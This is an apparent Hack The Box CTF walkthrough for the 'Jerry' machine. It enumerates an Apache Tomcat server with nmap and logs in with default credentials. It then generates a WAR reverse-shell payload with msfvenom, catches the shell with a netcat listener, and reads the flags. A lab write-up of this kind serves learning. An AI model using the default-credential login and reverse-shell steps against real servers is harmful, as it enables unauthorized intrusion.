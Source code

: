 ```yaml
---
layout: default
title: JERRY
description: by Hack The Box
---
```


<h3 align="center">

</h3>

# Enumeration

1. Nmap

   ```
   └─$ nmap -T4 10.10.10.95 -A -Pn
   Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-27 17:45 EST
   Nmap scan report for 10.10.10.95
   Host is up (0.031s latency).
   Not shown: 999 filtered tcp ports (no-response)
   PORT     STATE SERVICE VERSION
   8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
   |_http-favicon: Apache Tomcat
   |_http-title: Apache Tomcat/7.0.88
   |_http-open-proxy: Proxy might be redirecting requests
   |_http-server-header: Apache-Coyote/1.1

   Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 14.57 seconds
   ```

2. So port 8080 is open, its a tomcat webserver. Opening the website using http://10.10.10.95:8080/ we get redirected to the tomcat website. I tried to login with default username/password of admin:admin by click server status but it failed... but wait!!!

# FootHold

3. After a failed attemp in logging in as admin:admin, it took me to a 404 page saying that the default password for tomcat is username: tomcat and password: s3cret . I was like ok, I'll try that.
4. Wow! that was the easiest foothold ever!
5. Now navigating around the website I found that I can upload a file, great!
6. Googling for WAR file type reverse shell I came to a github page that has a one-liner to create a payload using MSFVENOM
   ```
   msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f war > exploit.war
   ```
   - Change the LHOST and LPORT according to your IP and listener port
   - This has to be done from a root user, doing the command even with SUDO doesnt cut it, not sure why.
7. Now, let me setup a listener with netcat
   ```
   nc -nvlp 4444
   ```
8. Upload the file. Then it will show in the list of applications. Click the upload file and this will take you to a blank page but will also activate your reverse shell
9. From here we just traverse the directory. Found a flag inside C:\Users\Administrator\Desktop\flag
10. Something extra I had to do is, I had to do this
    ```
    cp flags flag.txt
    ```
    then
    ```
    type flag.txt
    ```
11. Learned something new there. Both user and root flag is in that one flags file.

<br><br>

# Reference

1. https://www.exploit-db.com/exploits/42966
2. https://superuser.com/questions/434870/what-is-the-windows-equivalent-of-the-unix-command-cat
3. https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown
4. @Butchy - for helping me realise to use ROOT rather keep bashing my head using SUDO

<br><br>

[back to HOME](./)
